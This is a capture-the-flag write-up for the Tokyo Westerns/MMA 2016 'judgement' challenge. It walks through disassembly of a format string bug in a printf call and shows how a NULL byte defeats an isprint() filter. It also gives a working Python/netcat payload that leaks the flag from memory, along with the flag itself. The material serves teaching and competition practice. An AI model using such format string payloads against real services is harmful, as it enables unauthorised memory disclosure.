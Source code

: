 ## Tokey Westerns/MMA CTF 2nd 2016 - judgement (Pwn 50pt)
##### 03/09 - 05/09/2016 (48hr)
___

### Description: 
	Host : pwn1.chal.ctf.westerns.tokyo

	Port : 31729

	judgement
___
### Solution

This challenge was a trivial format string attack. Flag was already loaded in memory at:
```assembly
	.bss:0804A0A0 ; char flag[64]
	.bss:0804A0A0 flag   
```

The format string vulnerability was at:
```assembly
	.text:0804879F                 mov     [esp], eax      ; format
	.text:080487A2                 call    _printf
```


The only tricky part is this:
```assembly
.text:08048787                 jnz     short loc_804879C
.text:08048789                 mov     dword ptr [esp], offset s ; "Unprintable character"
.text:08048790                 call    _puts
.text:08048795                 mov     eax, 0FFFFFFFFh
.text:0804879A                 jmp     short loc_80487D8
```

As you can see only printable characters are allowed. However, function isprint():
```assembly
.text:080488D4                 call    _isprint
```

stops on NULL byte. Thus, all we have to do is to add a NULL byte to bypass this check,
and then we can write non-printable characters.


```
ispo@nogirl:~/ctf$ python -c 'print "%47$x-%47$s-\x00PAD\xa0\xa0\x04\x08"' | nc pwn1.chal.ctf.westerns.tokyo 31729
Flag judgment system
Input flag >> 804a0a0-TWCTF{R3:l1f3_1n_4_pwn_w0rld_fr0m_z3r0}-
Wrong flag...
```

```
ispo@nogirl:~/ctf$ nc pwn1.chal.ctf.westerns.tokyo 31729
Flag judgment system
Input flag >> TWCTF{R3:l1f3_1n_4_pwn_w0rld_fr0m_z3r0}
TWCTF{R3:l1f3_1n_4_pwn_w0rld_fr0m_z3r0}
Correct flag!!
ispo@nogirl:~/ctf$ 
```
___
